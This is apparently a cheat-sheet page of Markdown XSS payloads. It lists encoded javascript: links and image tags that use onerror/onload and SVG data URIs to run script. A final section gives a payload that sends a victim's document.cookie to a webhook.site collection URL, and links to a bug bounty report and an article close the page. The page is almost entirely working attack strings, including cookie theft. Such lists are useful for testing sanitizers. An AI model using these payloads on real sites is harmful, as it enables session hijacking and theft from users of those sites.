 ## XSS via Markdown Payloads 

#### Hyperlink to XSS

```bash
[a](javascript:this;alert(1))
[a](javascript:this;alert(1&#41;)
[a](javascript&#58this;alert(1&#41;)
[a](http://a?p=[[/onclick=alert(0) .]])
[a](javascript:new%20Function`al\ert\`1\``;)
[a](Javas&#99;ript:alert(1&#41;)
[a](Javas%26%2399;ript:alert(1&#41;)
[a](javascript:alert&#65534;(1&#41;)
[a](javascript:confirm(1)
[a](javascript://www.google.com%0Aprompt(1))
[a](javascript://%0d%0aconfirm(1);com)
[a](javascript:window.onerror=confirm;throw%201)
[a](javascript:alert(document.domain&#41;)
[a](javascript://www.google.com%0Aalert(1))
[a]('javascript:alert("1")')
[a](JaVaScRiPt:alert(1))
![a](https://lnkd.in/d-5FWcWe"onload="alert(1))
[a]("onerror="alert(1))
</http://<?php\><\h1\><script:script>confirm(2)
[XSS](.alert(1);)
```

#### Image to XSS

```bash
![XSS](x"onerror="alert(1)")
![XSS](x"onload="alert(1)")
![XSS](<"onerror="alert('XSS')>)
![XSS](<https://www.example.com/image.png"onerror="alert('XSS')>)
![a](data:image/svg+xml,<svg/onload=alert(1)>)
![a](data:image/svg+xml,<svg/onload="alert(1)">)
![a](data:image/svg+xml;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+)
![a](data:image/svg+xml,<svg><script>alert(1)</script></svg>)
![a](javascript&#x3A;alert(1))
![a](javascript:alert`1`)
```

#### To Retrive user's Cookies on your Server

```bash
[XSS](javascript:window.onerror=window.location='https://webhook.site/09731cdb-80b0-47e8-a057-f86e939f1ad9?'+document.cookie)
```

#### Supporting Material:-
- https://huntr.dev/bounties/b2caceaa-5b28-40ba-9980-70144159efba/
- https://amjadali110.medium.com/hyperlink-injection-726d8151b216
